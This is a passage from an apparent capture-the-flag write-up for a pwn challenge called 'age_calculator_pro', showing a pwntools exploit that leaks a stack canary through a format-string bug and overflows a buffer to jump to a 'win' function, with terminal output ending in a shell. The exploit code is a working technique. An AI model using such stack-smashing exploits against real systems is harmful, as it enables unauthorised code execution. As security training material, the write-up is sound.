 ```python

canary = int(leak[17], 16)
info(f"canary at: {hex(canary)}")
#raw_input('gdb')

payload = b'a' * 0x48
payload += p64(canary)
payload += p64(0x8)
payload += p64(elf.sym.win)

p.sendline(payload)
p.interactive()
```

And we get a shell!

```shell
┌──(vein㉿vein)-[~/sec/CTF_OliCyber.IT/pwn_age_calculator_pro]
└─$ ./exploit.py
[+] Starting local process '/home/vein/sec/CTF_OliCyber.IT/pwn_age_calculator_pro/age_calculator_pro': pid 63473
[*] [b'', b'0x7f8fe7fecb23', b'(nil)', b'0x7f8fe7fecaa0', b'(nil)', b'(nil)', b'(nil)', b'(nil)', b'0x257c70257c70257c', b'0x7c70257c70257c70', b'0x70257c70257c7025', b'0x257c70257c70257c', b'0x7c70257c70257c70', b'0x70257c70257c7025', b'0x257c70257c70257c', b'0x70257c70', b'(nil)', b'0x3872cd6dce4bf300', b'0x1', b'0x7f8fe7e406ca', b"(nil), what's your birth year?\n"]
[*] canary at: 0x3872cd6dce4bf300
[*] Switching to interactive mode
You are 2024 years old!
$ id
uid=1000(vein) gid=1000(vein) groups=1000(vein)
```
